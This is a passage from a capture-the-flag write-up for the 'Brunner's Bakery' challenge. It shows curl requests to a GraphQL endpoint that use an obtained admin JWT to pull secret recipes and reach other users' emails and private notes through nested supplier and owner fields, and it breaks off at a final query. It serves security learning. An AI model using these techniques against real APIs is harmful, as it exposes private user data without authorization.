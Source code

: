 result:
```
{ "data": { "login": { "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6InUyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzU1ODY3ODA4LCJleHAiOjE3NTU4NzUwMDh9.b3cJfjrYblHcppy4Z_gBfjFg-0cayUTqRwFBc_9BCcI", "user": { "id": "u2", "username": "brunner_admin" } } } }
```

now we can read ```secretRecipes``` via curl:

```
curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6InUyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzU1ODY3ODA4LCJleHAiOjE3NTU4NzUwMDh9.b3cJfjrYblHcppy4Z_gBfjFg-0cayUTqRwFBc_9BCcI" \
  -d '{"query":"{ secretRecipes { id name description author { username email } } }"}'
```

result
```
{"data":{"secretRecipes":[{"id":"r_secret_1","name":"The Golden Gateau","description":"A secret signature cake used for VIP orders.","author":{"username":"brunner_admin","email":"admin@brunners.local"}}]}}
```

i wasnt really sure what to do from here, but then i looked at recipes and remembered that they have an `ingredients` field with attributes for their `supplier`s, which are also users with private notes:

```
curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql \ 
    -H "Content-Type: application/json" \ 
    -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6InUyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzU1ODY3ODA4LCJleHAiOjE3NTU4NzUwMDh9.b3cJfjrYblHcppy4Z_gBfjFg-0cayUTqRwFBc_9BCcI" \ 
    -d '{"query":"{ secretRecipes { id name description isSecret author { id username displayName email notes privateNotes recipes { id name description isSecret } } ingredients { name supplier { id name owner { id username email } } } } }"}'
```

result:
```
{"data":{"secretRecipes":[{"id":"r_secret_1","name":"The Golden Gateau","description":"A secret signature cake used for VIP orders.","isSecret":true,"author":{"id":"u2","username":"brunner_admin","displayName":"Brunner Admin","email":"admin@brunners.local","notes":"Head baker","privateNotes":null,"recipes":[{"id":"r_secret_1","name":"The Golden Gateau","description":"A secret signature cake used for VIP orders.","isSecret":true}]},"ingredients":[{"name":"Rare Cocoa","supplier":{"id":"s1","name":"Heavenly Sugar Co","owner":{"id":"u4","username":"grandmaster_brunner","email":"gm@brunners.local"}}},{"name":"Aged Butter","supplier":{"id":"s2","name":"Golden Eggs Ltd","owner":{"id":"u3","username":"junior_baker","email":"tim@brunners.local"}}}]}]}}
```

let's try to take a look at users `u4` and `u3` with usernames `grandmaster_brunner` and `junior_baker`.

```
curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6InUyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzU1ODY3ODA4LCJleHAiOjE3NTU4NzUwMDh9.b3cJfjrYblHcppy4Z_gBfjFg-0cayUTqRwFBc_9BCcI" \
  -d '{"query":"{ secretRecipes { name ingredients { name supplier { name owner { id username displayName email notes privateNotes recipes { id name description isSecret } } } } } }"}'
```
